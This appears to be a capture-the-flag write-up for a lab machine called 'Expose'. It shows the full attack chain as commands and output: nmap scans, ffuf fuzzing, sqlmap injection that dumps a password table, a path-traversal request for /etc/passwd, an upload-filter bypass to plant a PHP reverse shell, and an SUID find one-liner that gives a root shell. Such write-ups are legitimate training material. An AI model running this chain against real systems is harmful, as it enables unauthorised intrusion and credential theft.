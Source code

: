 To check my VPN connection was working I started with `ping -c4 10.10.116.11`. Everything seems to be working fine so let's start.
I ran 
````
sudo nmap -sS -p- 10.10.116.111
````
to get an initial understanding of what ports were open on the target.

````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-07 15:51 EEST
Nmap scan report for 10.10.116.111
Host is up (0.075s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
````


Refined my command a bit
````
nmap -sVC -p21,22,53,1337,1883 10.10.116.111
PORT     STATE SERVICE                 VERSION
21/tcp   open  ftp                     vsftpd 2.0.8 or later
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh                     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a5:d1:b7:3c:c5:03:aa:34:f1:a6:e3:5f:b7:cd:5b:46 (RSA)
|   256 14:da:96:fc:70:45:71:e7:39:c8:0f:c3:a9:7a:87:b2 (ECDSA)
|_  256 e2:90:b5:0b:ee:f1:a1:9a:77:e1:40:cc:65:ae:66:12 (ED25519)
53/tcp   open  domain                  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: EXPOSED
|_http-server-header: Apache/2.4.41 (Ubuntu)
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/load/connections/1min: 1.83
|     $SYS/broker/messages/sent: 13
|     $SYS/broker/heap/current: 50872
|     $SYS/broker/load/publish/sent/1min: 9.14
|     $SYS/broker/publish/bytes/sent: 55
|     $SYS/broker/load/messages/sent/5min: 2.55
|     $SYS/broker/load/sockets/5min: 0.74
|     $SYS/broker/clients/active: 1
|     $SYS/broker/load/bytes/sent/1min: 340.81
|     $SYS/broker/uptime: 682 seconds
|     $SYS/broker/load/bytes/received/15min: 4.57
|     $SYS/broker/clients/maximum: 1
|     $SYS/broker/load/publish/sent/5min: 1.96
|     $SYS/broker/load/bytes/sent/5min: 73.25
|     $SYS/broker/load/messages/received/15min: 0.20
|     $SYS/broker/load/connections/15min: 0.13
|     $SYS/broker/load/bytes/received/5min: 13.55
|     $SYS/broker/store/messages/bytes: 140
|     $SYS/broker/bytes/received: 69
|     $SYS/broker/subscriptions/count: 2
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/store/messages/count: 30
|     $SYS/broker/load/connections/5min: 0.39
|     $SYS/broker/publish/messages/sent: 10
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/load/bytes/received/1min: 63.04
|     $SYS/broker/load/messages/sent/15min: 0.86
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/clients/connected: 1
|     $SYS/broker/load/sockets/1min: 2.51
|     $SYS/broker/load/messages/received/1min: 2.74
|     $SYS/broker/load/sockets/15min: 0.30
|     $SYS/broker/messages/stored: 30
|     $SYS/broker/retained messages/count: 34
|     $SYS/broker/heap/maximum: 51272
|     $SYS/broker/load/publish/sent/15min: 0.66
|     $SYS/broker/clients/total: 1
|     $SYS/broker/bytes/sent: 373
|     $SYS/broker/load/messages/received/5min: 0.59
|     $SYS/broker/load/bytes/sent/15min: 24.72
|     $SYS/broker/load/messages/sent/1min: 11.88
|_    $SYS/broker/messages/received: 3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
````

So there is FTP, SSH, DNS domain, waste p2p encrypted file sharing software, and MQTT which is a home automation protocol running.
FTP server allows anonymous login without a password so let's start there. There are no files but the welcome message is `220 Welcome to the Expose Web Challenge.`.
Went to `http://10.10.116.111:1337` with the browser and got a plank page with "EXPOSED" in it. Let's use ffuf to try to find some directories.
````
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.116.111:1337/FUZZ
````
found "/admin, /admin_101, /javascript, /phpmyadmin & /server-status".

"/admin, /admin_101 & /phpmyadmin" all have login pages but "/admin" states "Is this the right admin portal?". Testing "/admin" login does not really do anything so let's look at the "/admin_101" next.
Used burp to proxy the request to a file for sqlmap to test for injection vulnerabilities. 
`sqlmap -l req --level=4 --risk=2` tells that backend server seems to be "MySQL 
`sqlmap -l req --dbms=MySQL --dbs` found "[*] expose,[*] information_schema,[*] mysql,[*] performance_schema,[*] phpmyadmin,[*] sys" databases.
`sqlmap -l req --dbms=MySQL -D expose,mysql,phpmyadmin --tables` dumps tables from databases "expose,mysql,phpmyadmin".
I started with expose database. There were "user, config" tables so lets find out columns for "user" table. 
`sqlmap -l req --dbms=MySQL -D expose -T user --columns` found "created,email,id,password" columns so let's dump them!
````
+-----------------+----+--------------------------------------+
| email           | id | password                             |
+-----------------+----+--------------------------------------+
| hacker@root.thm | 1  | VeryDifficultPassword!!#@#@!#!@#1231 |
+-----------------+----+--------------------------------------+
````
This grants login to "/admin_101" but there is nothing.

`sqlmap -l req --dbms=MySQL -D expose -T config --dump` gives more interesting output
````
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929                    |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+
````
I tried to crack hash with JohnTheRipper but it didn't work. I used crackstation.com to see if it would work, and it did. The password is "easytohack".
Tried to brute force 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
with z starting usernames as it hints that the username starts with "z" but it didn't work.
"/file1010111/index.php" lets me in with the password "easytohack". Looking at the source code there is a "Hint: Try file or view as GET parameters?". 
It hints towards LFI(local file inclusion). Trying 
````
http://10.10.116.111:1337/file1010111/index.php?file=../../../../../../../../../etc/passwd
````
spits out the whole passwd file!

In the file is user "zeamkish", trying that on 
````
http://10.10.116.111:1337/upload-cv00101011/index.php
````
gives upload page. 
The source code tells me that there is a javascript function that only allows "jpg & png" files. Let's try to bypass it with burp.
I will create a rev.php.png file with php reverse shell inside and upload it with burp. I intercept the upload and remove ".png" extension from the reverse shell and it goes through!
The site says "File uploaded successfully! Maybe look in source code to see the path" so again I looked at the source code and found that the file went to "/upload_thm_1001".
I start a listener port the port in the reverse shell and execute our reverse shell by just clicking the file and we got our shell!

I looked at the folder I landed in but there was nothing. Checked home folders of "ubuntu" and "zeamkish". In zeamkish folder was a file named "ssh_creds.txt"!
Let's try them for ssh `ssh zeamkish@10.10.116.111` and we are in as zeamkish.

I uploaded "linpeas.sh" to help with enumeration. There is an uncommon binary with suid bit.
`-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find`

I had a look at gtfobins and found that you can spawn a privileged shell with: `./find . -exec /bin/sh -p \; -quit`
The flag was `/root/flag.txt`
